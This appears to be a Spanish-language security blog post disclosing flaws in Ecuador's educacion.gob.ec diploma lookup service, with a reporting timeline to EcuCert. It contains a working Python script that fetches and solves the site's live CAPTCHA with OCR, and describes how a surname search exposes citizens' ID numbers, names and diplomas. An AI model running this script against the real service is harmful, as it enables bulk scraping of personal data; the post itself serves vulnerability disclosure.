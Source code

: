 ```yaml
---
pubDatetime: 2025-06-15
title: Tus datos han sido filtrados | educacion.gob.ec
description: Ninguna inyección SQL fue necesaria, solo un apellido y el checkbox indicado para explotar el registro de títulos de bachilleres del Ecuador
featured: true
draft: true
author: eserror
tags:
  - filtracion
  - ecuador
---
```


Durante los últimos años el gobierno del Ecuador ha realizado esfuerzos por modernizar y digitalizar su infraestructura. Gracias a estas iniciativas, hoy en es posible realizar el apostillado, obtener una copia del título de bachiller u otros servicios que pueden ser encontrados en [www.gob.ec](https://www.gob.ec/).

Entre los nuevos servicios ofrecidos por el gobierno, la facilidad para obtener una copia del título de bachiller me llevó a pensar en las posibilidades, dada la cantidad cantidad y el tipo de información que posiblemente almacenaba, una falla de seguridad sería catastrófica.

Es así como descubrí una vulnerabilidad que afecta a la mayoría de los ecuatorianos, exponiendo cédulas, nombres completos, copia completa del título de bachiller, etc.

Es necesario un ataque sofisticado cuando un apellido y el checkbox indicado te pueden entregar toda la base de datos?

## Vulnerabilidades

1. Weak CAPTCHA

La plataforma del servicio de consulta de títulos de bachilleres, cuenta con un mecanismo para evitar repetidas solicitudes y abusos de bots, sin embargo, este mecanismo es muy debil por lo tanto fácil de vulnerar.

El siguiente código en python pretende ser una prueba de concepto para demostrar qué tan fácil es abusar del mecanismo de seguridad actual:

```python
import requests
from PIL import Image
import io
import re
import os
import easyocr
import numpy as np

try:
    reader = easyocr.Reader(['en'], gpu=True)
    EASYOCR_AVAILABLE = True
except Exception as e:
    print(f"ERROR: Failed to initialize EasyOCR: {e}")
    print("Please ensure 'easyocr' and 'torch', 'torchvision', 'torchaudio' are installed.")
    EASYOCR_AVAILABLE = False

def solve_captcha_ai(image_url, save_ocr_input_filename="image.png"):

    if not EASYOCR_AVAILABLE:
        print("EasyOCR is not available. Cannot proceed.")
        return None

    try:

        response = requests.get(image_url, stream=True, timeout=15)
        response.raise_for_status()
        image_bytes = response.content

        image_data_for_ocr = image_bytes

        try:
            if not save_ocr_input_filename:
                raise ValueError("Save filename is empty or None.")

            img_to_save = Image.open(io.BytesIO(image_data_for_ocr))
            img_to_save.save(save_ocr_input_filename)

        except ValueError as ve:
             print(f"Error preparing to save: {ve}")
        except Exception as e:

            print(f"Warning: Could not save the image being read ('{save_ocr_input_filename}'): {e}")
            print(f"Exception Type: {type(e)}")

        print("Processing image...")
        results = reader.readtext(image_data_for_ocr, detail=1, paragraph=False)

        if results:
            extracted_text = "".join([detection[1] for detection in results])
            cleaned_text = re.sub(r'[^a-zA-Z0-9]', '', extracted_text).strip()

            return cleaned_text
        else:
            print("EasyOCR did not detect any text in the image.")
            return ""

    except requests.exceptions.RequestException as e:
        print(f"Network error downloading image: {e}")
        return None
    except Exception as e:
        print(f"An unexpected error occurred: {e}")
        import traceback
        traceback.print_exc()
        return None

captcha_url = "https://servicios.educacion.gob.ec/titulacion25-web/Captcha.jpg"
filename_for_ocr_input = "image.png"

extracted_text = solve_captcha_ai(captcha_url, save_ocr_input_filename=filename_for_ocr_input)
print(f"Result: {extracted_text}")

```

En la pantalla de fondo, se encuentra la imágen `image.png`, esta se genera automáticamente con caracteres aleatorios como medida para evitar solicitudes excesivas. En la imágen, se puede ver el resultado de la ejecución del script que intenta leer el texto de la imágen, dando como resultado la lectura del texto de la imágen.

Lo importe de haber encontrado una falla en este componente, es que me permite realizar solicitudes al servicio, sin ningún tipo de restricción, lo cual es útil para extraer los registros de la base de datos de forma menos dolorosa.

<img src="/src/assets/images/Pasted image 20250417200405.png">

2. Sensitive Data Exposure

Existen dos formas de consultar información sobre un usuario específico, usando un ID como cédula o apellidos.

Usando la opción de los apellidos, es la que más retorno de inversión proporciona ya que solo es necesario un apellido random, y la aplicación te entrega la información de todos las personas que tengan ese apellido, es decir que si uso como apellido zambrano, mostrará la información de todos los ecuatorianos con ese apellido.

<img src="/src/assets/images/Pasted image 20250417110345.png">

<img src="/src/assets/images/Pasted image 20250417110500.png">

### Conclusión

Cada día es más común enterarse en las noticias sobre nuevas filtraciones de datos personales, las cuales pasan desapercibidas como una notificación molesta en el teléfono. Se habla de un crecimiento e iniciativas como la Estrategia Nacional de Ciberseguridad o la Ley Orgánica de Protección de Datos Personales, sin embargo en la práctica nos encontramos en un estado de inactividad cuando de la realidad se trata.

Report Timeline

17-04-2025: Reporte Inicial a EcuCert</br>
22-05-2025: EcuCert responde alegando que no hay un programa responsable de divulgación de vulnerabilidades</br>
15-06-2025: Sin respuesta
